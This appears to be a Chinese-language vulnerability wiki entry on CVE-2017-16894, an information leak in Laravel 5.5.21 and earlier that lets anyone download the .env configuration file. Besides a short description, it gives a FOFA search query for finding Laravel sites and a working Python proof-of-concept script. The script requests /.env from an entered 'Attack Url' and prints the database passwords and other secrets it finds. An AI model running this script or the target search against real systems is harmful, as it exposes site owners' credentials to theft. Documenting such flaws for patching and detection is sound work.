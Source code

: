 # Laravel .env 配置文件泄露 CVE-2017-16894

## 漏洞描述

Laravel Framework是Taylor Otwell软件开发者开发的一款基于PHP的Web应用程序开发框架。 Laravel framework 5.5.21及之前的版本中存在 .env 文件可被下载的信息泄露漏洞。远程攻击者可利用该漏洞获取敏感信息

## 漏洞影响

> [!NOTE]
>
> Laravel framework <= 5.5.21

## FOFA

> [!NOTE]
>
> app="Laravel-Framework"

## 漏洞复现

访问目标 url http://xxx.xxx.xxx.xxx/.env

当配置不当且在影响范围内时会出现 **.env可被下载的情况**，导致数据库账号密码等敏感信息的泄露

这里使用POC脚本来进行信息获取

![](http://wikioss.peiqi.tech/vuln/laravel-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Laravel framework <= 5.5.21                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/.env"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "APP_NAME" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] .env 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Laravel_.env_configuration_file_leaks_(CVE-2017-16894).json

![](http://wikioss.peiqi.tech/vuln/laravel-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)